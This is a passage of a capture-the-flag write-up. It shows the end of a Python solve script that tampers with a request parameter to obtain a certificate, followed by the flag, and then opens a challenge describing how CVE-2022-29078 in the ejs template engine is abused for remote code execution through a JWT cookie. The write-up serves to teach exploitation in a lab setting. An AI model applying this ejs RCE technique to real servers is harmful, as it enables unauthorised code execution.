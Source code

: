     )

    res = s.post(base_url + "status", json={
        "action" : "finish",
        "rate" : -2000
    })


res = s.get(base_url + "cert")
with open("./mauro.pdf", "wb") as f:
    f.write(res.content)

{% endhighlight %}

And here is the flag:

```
SCTF{oh_I_forgot_to_disable_javascript}
```

# JWT Decoder

```
Authors: Ve & Shotokhan
Description: Abusing CVE-2022-29078 for RCE with JWT
Category: Web
Points: 142
```

> I am studying nodejs web programming.
> I wrote simple JWT decode web site with popular node packages.
> Using recent packages, I certain that there is no severe security issue!
> Server1: http://jwtdecoder.sstf.site
> Server2: http://jwtdecoder.sstf.site:8080
> Download: jwt_decoder.zip

The service enables to modify a JWT client-side, set it as cookie and send it to the server, which renders a template with fields from the JWT. <br>
Source code is provided, as well as package versions, Dockerfile and so on. <br>
If we build the container image locally, we get warning for a critical vulnerability from ```npm audit```, about the package ```ejs```. <br>
These are the dependencies:

```
{
  "dependencies": {
    "cookie-parser": "^1.4.6",
    "ejs": "^3.1.6",
    "express": "^4.17.3"
  }
}
```

We can see a proof of concept for the vulnerability, which is a RCE, [here](https://eslam.io/posts/ejs-server-side-template-injection-rce/). <br>
In the proof of concept, server-side there is something like ```res.render('index', req.query);```, whereas in our case the second parameter to the ```render``` function is the object ```rawJwt```, as we can see in the source code of ```app.js```:
